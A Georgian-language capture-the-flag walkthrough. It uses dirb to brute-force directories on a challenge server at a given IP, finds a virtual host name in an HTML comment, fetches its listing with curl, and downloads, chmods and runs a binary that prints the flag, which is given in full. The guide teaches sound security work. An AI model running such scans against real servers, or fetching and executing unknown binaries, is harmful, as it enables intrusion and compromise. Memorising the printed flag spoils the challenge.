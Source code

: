 ## მოცემულია სერვერი, რომელსაც ფლობს პიროვნება სახელად: Elliot. მან თქვენ გაგიმზადათ თავსატეხი, რომელიც უნდა ამოხსნათ და ამოიღოთ ე.წ. “flag”.

1. სერვერზე შესვლისას გვხვდებაშემდეგი საიტი. 
 ![index.php](.images/1-index.php.png)


2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/ /usr/share/dirb/wordlists/big.txt 

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 23 08:14:22 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

    -----------------

    GENERATED WORDS: 20458                                                         

    ---- Scanning URL: http://185.212.254.50/ ----
    ==> DIRECTORY: http://185.212.254.50/images/                                                                         
    + http://185.212.254.50/robots.txt (CODE:200|SIZE:33)                                                                
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                                                            
    ==> DIRECTORY: http://185.212.254.50/society/                                                                        
                                                                                                                        
    ---- Entering directory: http://185.212.254.50/images/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.                        
        (Use mode '-w' if you want to scan it anyway)
                                                                                                                        
    ---- Entering directory: http://185.212.254.50/society/ ----
                                                                                                                        
    -----------------
    END_TIME: Sat May 23 08:23:24 2020
    DOWNLOADED: 40916 - FOUND: 2

    ```

    გამოტანილი ინფორმაციიდან ვიგებთ, რომ dirb-მა იპოვა ორი ფოლდერი
    ```bash
    ==> DIRECTORY: http://185.212.254.50/images/                                
    ==> DIRECTORY: http://185.212.254.50/society/
    ```

    * /images/ ფოლდერში თU შევალთ ვნახავთ, რომ შეიცავს მხოლოდ ერთ ცალ სურათს (რომელიც მთავარ ფეიჯზე არის მოცემული), რაც ჩვენთვის საინტერესო არაა

3. /society მისამართზე გადასვლისას გვხვდება შემდეგი ფეიჯი ![index.php](.images/3.1-society.php.png)
    ამჯერადაც არაფერი საინტერესო, ჩავიხედოთ მიღებულ html-ში
    ```html
    <!doctype html>
    <html>
        <head>
            <title>Society</title>
        </head>
        <body style="background-color: black">
            <img src="society.jpg"/>
            <p style="color: green; font-family: cursive">Society? ...</p>

            <!--TODO list-->
            <!--1. Install PHP [+] -->
            <!--2. Create Virtual Host: cyber-cube.cb [+] -->
        </body>
    </html>
    ```
    Html-ში ვხედავთ TODO ლისტ-ს რომელში ორი ტასკია. მეორე ტასკის მიხედვით შეგვიძLია ვივარაუდოთ, რომ ამავე სერვერზე გაშვებულია ვირტუალური სერვერი(host) `cyber-cube.cb`

4. გამოვიყენოთ curl ბრძანება და შევიდეთ ამ აიპიზე და მოცემულ ვირტუალურ ჰოსტზე
    ```bash
    curl -H 'Host: cyber-cube.cb' 185.212.254.50 
    ```
    Output: 
    ```html
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <html>
    <head>
        <title>Index of /</title>
    </head>
    <body>
        <h1>Index of /</h1>
        <table>
            <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
            <tr><th colspan="5"><hr></th></tr>
            <tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="binary">binary</a></td><td align="right">2019-07-02 13:40  </td><td align="right"> 16K</td><td>&nbsp;</td></tr>
            <tr><th colspan="5"><hr></th></tr>
        </table>
        <address>Apache/2.4.29 (Ubuntu) Server at cyber-cube.cb Port 80</address>
    </body>
    </html>

    ```

    როგორც ვხედავთ ეს ფეიჯი განსხვავდება, იმისგან რასაც ბრაუზერში ვნახულობდით, ანუ მართლაც, რომ ვირტუალური ჰოსტმა დაგვიბრუნა თავისი ინდექს ფეიჯი (ამას გვიმოწმებ `<adresss>` თეგიც) 

5. შეგვიძლია ამ ჰოსტზეც გავუშვათ bruteforce, მაგრამ მანამდე შეგვიძლია ვნახოთ ამ html-დანვე თუ რა მისამართებზე შეგვიძLია გადასვლა(ამოვიღოთ src და href ოფშენები)
    ```
    src="/icons/blank.gif"
    src="/icons/unknown.gif"

    href="?C=N;O=D"
    href="?C=M;O=A"
    href="?C=S;O=A"
    href="?C=D;O=A"
    href="binary"
    ```

6. ზემოთ ჩამოთვლილი მისამართებიდან ყველაზე საინტერესო არის ბოლო 'binary'. ამიტომ მოვითხოვოთ /binary ფაილი და შევინახოთ ფაილში სახელად bin (--output პარამეტრად გადაეცემა შესანახი ფაილის მისამართI)
    ```bash
    curl -H 'Host: cyber-cube.cb' 185.212.254.50/binary --output bin
    ```
    Output:
    ```bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
        100 16608  100 16608    0     0   352k      0 --:--:-- --:--:-- --:--:--  352k
    ````

7. როგორც ვხედავთ ფაილი გადმოვწერეთ, გავხსნათ და ვნახოთ შიგთავსი cat კომანდით.
    ```bash
    cat bin
    ```
    სამწუხაროდ ფაილი არაა ტექსტური სახით, როგორც ჩანს ბინარული ფაილია. ხოლო თავში ვხედავთ რომ უწერია ELF (Executable and Linkable Format), ამით შეგვიძლია ვივარაუდოთ რომ ეს ფაილი არის executable და უნდა გავუშვათ.

    ფაილი რომ გავუშვათ უნდა შევუცვალოთ permision-ები(დავუმატოთ execute-ის permision), რომ ბაშმა გაუშვას. ამის გაკეთება შეგვიძლია შემდეგნაირად:
    ```bash
    chmod +x bin
    ```

8. ახლა კი შეგვიძლია, როგორც სხვა ნებისმიერი პროგრამა, ისე გავუშვათ ჩვენი bin ფაილი.
    ```bash
    ./bin
    ```
    Output:
    ```bash
    Cyber_Cube{2dee4a7d7d63c913fb38e6e6d5cf8177}
    ```

    **როგორც ვხედავთ ეს bin ფაილი შეიცავდა სწორედ იმ flag-ს რისთვისაც აქ შევიკრიბეთ!**